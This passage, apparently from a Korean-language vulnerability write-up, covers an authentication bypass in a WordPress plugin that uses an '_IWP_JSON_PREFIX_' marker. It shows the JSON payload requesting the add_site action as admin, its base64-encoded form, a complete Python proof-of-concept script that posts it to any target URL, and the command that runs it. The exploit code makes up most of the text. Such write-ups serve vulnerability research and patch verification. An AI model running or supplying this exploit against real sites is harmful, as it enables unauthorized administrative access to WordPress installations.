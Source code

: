 ```json
{"iwp_action": "add_site", "params": {"username": "admin"}}
```

<br>
따라서,  `_IWP_JSON_PREFIX_` 문자열 이후에 base64 인코딩한 페이로드를 삽입하여 요청을 시도한다.

```python
import requests
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", required=True, help="URL of the target WordPress site.")
args = parser.parse_args()

url = args.url
data = '_IWP_JSON_PREFIX_eyJpd3BfYWN0aW9uIjoiYWRkX3NpdGUiLCJwYXJhbXMiOnsidXNlcm5hbWUiOiJhZG1pbiJ9fQ=='
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

request = requests.Request('POST', url, data=data, headers=headers).prepare()

print("=== Request ===")
print(f"{request.method} {request.path_url} HTTP/1.1")
for header, value in request.headers.items():
    print(f"{header}: {value}")
print()
print(request.body)
print()

response = requests.Session().send(request)

print("=== Response ===")
print(f"HTTP/{response.raw.version} {response.status_code} {response.reason}")
for header, value in response.headers.items():
    print(f"{header}: {value}")
print()
if response.content:
    print(response.content.decode())
print()
```

<br>
PoC 실행 결과이다.

```bash
python exploit.py -u http://localhost/wordpress/
```
